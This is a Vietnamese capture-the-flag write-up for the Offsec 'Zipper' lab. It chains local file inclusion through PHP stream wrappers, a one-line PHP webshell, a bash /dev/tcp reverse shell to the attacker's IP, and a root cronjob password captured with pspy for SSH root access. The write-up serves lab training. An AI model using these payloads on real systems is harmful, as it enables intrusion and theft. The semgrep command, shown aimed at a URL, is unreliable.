 # Offsec Zipper Lab Writeup: File Inclusion và Privilege Escalation

**Link lab**: [Offsec Practice Lab](https://portal.offsec.com/labs/practice)  
**IP**: 192.168.57.229  
**Tên máy**: Zipper

## Mục tiêu

Khai thác lỗ hổng trên dịch vụ web để lấy shell ban đầu và leo quyền lên root thông qua phân tích cronjob.

## Bước 1: Enumeration

### Quét dịch vụ bằng Nmap

Chạy lệnh `nmap` để xác định các port mở và dịch vụ trên host:

```bash
nmap -sC -sV -p- 192.168.57.229
```

**Kết quả**:

- **Port 22**: SSH (OpenSSH).
- **Port 80**: HTTP (Apache/2.4.41 trên Ubuntu, chạy PHP).

### Phân tích dịch vụ web (Port 80)

Sử dụng `whatweb` để thu thập thông tin về web server:

```bash
whatweb http://192.168.57.229
```

**Kết quả**:

- Web server: Apache/2.4.41 (Ubuntu), PHP.
- Chức năng: Upload file, nén file thành `.zip`, và tải file `.zip`.

### Kiểm tra lỗ hổng File Inclusion

Dựa trên [cheatsheet File Inclusion](https://www.hackthebox.com/files/cheatsheet-file-inclusion.pdf), tôi nhận thấy PHP hỗ trợ **Stream Wrappers** như `php://`, `zip://`, `data://`, cho phép truy cập tài nguyên như file thông thường. Tôi thử khai thác lỗ hổng **Local File Inclusion (LFI)** bằng wrapper `php://filter`:

```bash
curl "http://192.168.57.229/index.php?file=php://filter/read=convert.base64-encode/resource=upload"
```

**Kết quả**:

- Đọc được nội dung các file trong hệ thống (như `/var/www/html/upload`, `/var/www/html/index.php`) dưới dạng mã hóa base64.
- Giải mã base64 để phân tích source code.

### Phân tích source code

- Source code của `index.php` cho thấy chức năng đọc file không kiểm tra định dạng file upload, chỉ kiểm tra tham số `file` bằng `GET`.
- Sử dụng `semgrep` để quét lỗ hổng:

```bash
semgrep --config=p/r2c-security-audit http://192.168.57.229
```

- Kết quả: Phát hiện lỗ hổng **Path Traversal** trong tham số `file` của `index.php`, cho phép truy cập các file ngoài thư mục web root.

## Bước 2: Khai thác LFI để lấy shell

### Upload webshell

Tận dụng chức năng upload không giới hạn định dạng, tôi tạo một webshell đơn giản `shell.php`:

```php
<?php system($_GET['cmd']); ?>
```

Upload file qua giao diện web:

```bash
curl -F "file=@shell.php" http://192.168.57.229/upload
```

**Kết quả**: File được upload và lưu trong file zip `upload_1751557612.zip` tại thư mục `/var/www/html/uploads`.

### Truy cập webshell qua zip://

Sử dụng wrapper `zip://` để truy cập `shell.php` trong file zip:

```bash
curl "http://192.168.57.229/index.php?file=zip://uploads/upload_1751557612.zip%23shell&cmd=id"
```

**Kết quả**: Lệnh `id` thực thi thành công, xác nhận webshell hoạt động.

### Tạo reverse shell

1. Mở listener trên máy Kali (IP: 192.168.49.58):

```bash
nc -lvnp 1234
```

2. Gửi yêu cầu HTTP để tạo reverse shell:

```bash
curl "http://192.168.57.229/index.php?file=zip://uploads/upload_1751557612.zip%23shell&cmd=bash%20-c%20'bash%20-i%20%3e%26%20%2fdev%2ftcp%2f192.168.49.58%2f1234%200%3e%261'"
```

**Kết quả**: Nhận được reverse shell với user `www-data` và lấy được flag đầu tiên (`local.txt`).

## Bước 3: Privilege Escalation

### Kiểm tra cronjob

Kiểm tra các cronjob để tìm vector leo quyền:

```bash
cat /etc/crontab
cat /etc/cron.*
```

**Kết quả**:

- Phát hiện script `/opt/backup.sh` chạy với quyền root mỗi phút:

```bash
* * * * * root bash /opt/backup.sh
```

Nội dung script:

```bash
#!/bin/bash
password=`cat /root/secret`
cd /var/www/html/uploads
rm *.tmp
7za a /opt/backups/backup.zip -p$password -tzip *.zip > /opt/backups/backup.log
```

- Quan sát: Script đọc password từ `/root/secret` (không có quyền truy cập) và sử dụng trong lệnh `7za` với tùy chọn `-p` (password in plaintext).

### Theo dõi tiến trình bằng `pspy`

1. Tải công cụ `pspy32` từ máy Kali (IP: 192.168.49.58):

```bash
# Trên máy Kali
python3 -m http.server 8000
```

2. Tải `pspy32` về máy mục tiêu:

```bash
wget http://192.168.49.58:8000/pspy32 -O /tmp/pspy32
chmod +x /tmp/pspy32
```

3. Chạy `pspy32` để giám sát tiến trình:

```bash
/tmp/pspy32
```

**Kết quả**: Bắt được lệnh `7za` với password in plaintext:

```
2025/07/05 00:42:01 CMD: UID=0 PID=2677 | /usr/lib/p7zip/7za a /opt/backups/backup.zip -pWildCardsGoingWild -tzip @enox.zip enox.zip
```

- Password: `WildCardsGoingWild`.

### Đăng nhập root

Sử dụng password để đăng nhập SSH với user `root`:

```bash
ssh root@192.168.57.229 -p 22
```

**Kết quả**: Đăng nhập thành công và lấy được flag root.

## Bài học rút ra

1. **LFI và Stream Wrappers**: Kỹ thuật sử dụng `php://filter` và `zip://` rất mạnh mẽ để khai thác lỗ hổng file inclusion.
2. **Kiểm tra source code**: Phân tích source code và quét bằng `semgrep` giúp phát hiện các misconfiguration quan trọng.
3. **Giám sát cronjob**: Công cụ `pspy` là lựa chọn tuyệt vời để theo dõi tiến trình và lấy thông tin nhạy cảm như password.
4. **Upload không giới hạn**: Các chức năng upload không kiểm tra định dạng là điểm yếu phổ biến, dễ bị khai thác để upload webshell.